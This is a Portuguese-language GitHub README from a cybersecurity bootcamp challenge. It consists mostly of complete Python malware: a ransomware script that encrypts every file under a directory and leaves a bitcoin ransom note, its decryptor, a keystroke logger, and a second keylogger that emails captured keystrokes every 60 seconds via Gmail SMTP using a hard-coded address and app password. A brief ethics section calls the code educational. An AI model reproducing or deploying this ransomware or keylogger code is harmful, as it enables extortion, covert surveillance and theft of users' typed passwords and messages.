


# 🐍 Malware com Python

## Uma análise técnica da anatomia de ataques cibernéticos _ Teoria e Prática. 

**Definição de Malware:**  Qualquer tipo de programa ou código que foi criado com  a intenção prejudicial.


### Tipos comuns de Malware




--- 


## 🐍 Estudo de Caso A: Ransomware _ O Sequestrador 

**Biblioteca Principal:** cryptography.fernet 

**ransoware.py**

```

from cryptography.fernet import Fernet
import os

#1. Gerar uma chave de criptografia e salvar
def gerar_chave():
    chave = Fernet.generate_key() 
    with open("chave.key", "wb") as chave_file:
        chave_file.write(chave)

#2. Carregar a chave salva
def carregar_chave():
    return open("chave.key", "rb").read()

#3. Criptografar um único arquivo
def criptografar_arquivo(arquivo, chave):
    f = Fernet(chave)
    with open(arquivo, "rb") as file:
        dados = file.read()
    dados_encriptados = f.encrypt(dados)
    with open(arquivo, "wb") as file:
        file.write(dados_encriptados)

#4. Encontrar arquivos para criptografar 
def encontrar_arquivos(diretorio):
    lista = []
    for raiz, _, arquivos in os.walk(diretorio):
        for nome in arquivos:
            caminho = os.path.join(raiz, nome)
            if nome != "ransoware.py" and not nome.endswith(".key"):
                lista.append(caminho)
    return lista 

#5. Mensagem de resgate
def criar_mensagem_resgate():
    with open("LEIA ISSO.txt", "w") as f:
        f.write("Seus arquivos foram criptografados!\n")
        f.write("Envia 1 bitcoin para o endereço X e envie o comprovante!\n")
        f.write("Depois disso, enviaremos a chave para você recuperar seus dados!\n")

#6. Execução principal
def main():
    gerar_chave()
    chave = carregar_chave()
    arquivos = encontrar_arquivos("test_files")
    for arquivo in arquivos:
        criptografar_arquivo(arquivo, chave)
    criar_mensagem_resgate()
    print("Ransoware executado! Arquivos criptografos!")

if __name__=="__main__":
    main()


```

**descrypt.py**

```

from cryptography.fernet import Fernet
import os

def carregar_chave():
    return open("chave.key", "rb").read()

def descriptografar_arquivo(arquivo,chave):
    f = Fernet(chave)
    with open(arquivo, "rb") as file:
        dados = file.read()
        dados_descriptografados = f.decrypt(dados)
    with open(arquivo, "wb") as file:
        file.write(dados_descriptografados)

def encontrar_arquivos(diretorio):
    lista = []
    for raiz, _, arquivos in os.walk(diretorio):
        for nome in arquivos:
            caminho = os.path.join(raiz, nome)
            if nome != "ransoware.py" and not nome.endswith(".key"):
                lista.append(caminho)
    return lista 

def main():
    chave = carregar_chave()
    arquivos = encontrar_arquivos("test_files")
    for arquivo in arquivos:
        descriptografar_arquivo(arquivo, chave)
    print("Arquivos restaurados com sucesso")

if __name__ == "__main__":
    main()

```





---


## 🐍 Estudo de caso B: Keylogger _ O Espião silencioso

**Bibliotecas:** pynput, keyboard 

Diferente do ransomware, o objetivo aqui é a vigilância silenciosa. 

**keylogger.py**

```
from pynput import keyboard 

IGNORAR = {
    keyboard.Key.shift,
    keyboard.Key.shift_r,
    keyboard.Key.ctrl_l,
    keyboard.Key.ctrl_r,
    keyboard.Key.alt_l,
    keyboard.Key.alt_r,
    keyboard.Key.caps_lock,
    keyboard.Key.cmd
}

def on_press(key):
    try: 
        # se for uma tecla "normal" (letra, número, símboolo)
        with open("log.txt", "a", encoding="utf-8") as f:
            f.write(key.char)

    except AttributeError:
        with open("log.txt", "a", encoding="utf-8") as f:
            if key == keyboard.Key.space:
                f.write(" ")
            elif key == keyboard.Key.enter:
                f.write("\n")
            elif key == keyboard.Key.tab:
                f.write("\t")
            elif key == keyboard.Key.backspace:
                f.write(" ")
            elif key == keyboard.Key.esc:
                f.write(" [ESC] ")
            elif key in IGNORAR:
                pass 
            else:
                f.write(f"[{key}] ")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

**keylogger_email.py**

```

from pynput import keyboard 
import smtplib
from email.mime.text import MIMEText
from threading import Timer 

log = ""

#CONFIGURAÇÕES DE E-MAIL 
EMAIL_ORIGEM = "demokeylogger0@gmail.com"
EMAIL_DESTINO= "demokeylogger0@gmail.com"
SENHA_EMAIL = "wxee vdxg lkws lbyi"

def enviar_email():
    global log 
    if log:
        msg = MIMEText(log)
        msg['SUBJECT'] = "Dados capturados pelo keylogger"
        msg['From'] = EMAIL_ORIGEM
        msg['To']= EMAIL_DESTINO 
        
        try:
            server = smtplib.SMTP("smtp.gmail.com", 587)
            server.starttls()
            server.login(EMAIL_ORIGEM, SENHA_EMAIL)
            server.send_message(msg)
            server.quit()
        except Exception as e:
            print("Erro ao enviar", e)
    
        log = ""

    # Agendar o envio a cada 60 segundos
    Timer(60, enviar_email).start()

def on_press(key):
    global log
    try:
        log+= key.char 
    except AttributeError:
        if key == keyboard.Key.space:
            log +=" "
        elif key == keyboard.Key.enter:
            log += "\n"
        elif keyboard.Key.backspace:
            log+="[<]"
        else:
            pass # Ignorar control, shift, etc...

# Inicia o keylogger e o envio automático
with keyboard.Listener(on_press=on_press) as listener:
    enviar_email()
    listener.join()

```


--- 


## Ética e Responsabilidade

O conhecimento dessas ferramentas é vital para profissionais de segurança da informação (Blue Team) e testadores de intrusão (Red Team). 

- **Defesa:** Entender o ataque é o primeiro passo para construir a defesa.

- **Legalidade:** O uso dessses scripts em computadores sem consentimento é crime.

- **Propósito:** Apenas para fins educacionais e pesquisa de segurança.


## A cibersegurança é um processo contínuo. A prevenção constante é a chave. 


- **Desafio de projeto:** Bootcamp Riachuelo _ Cibersegurança
- **Módulo:** Avançando na análise e proteção de ataques cibernéticos
  
- **🎓 Desafio ministrado por:**  Isadora Gacia Ferrão
- 🟦 https://www.instagram.com/isadora.ferrao
- 🟦 https://www.linkedin.com/in/isadora-ferrao
- Códigos fornecidos por Isadora Ferrão
- **Imagens e vídeos gerados com o auxílio das ferramentas de IA:** Copilot e NotebookLM 


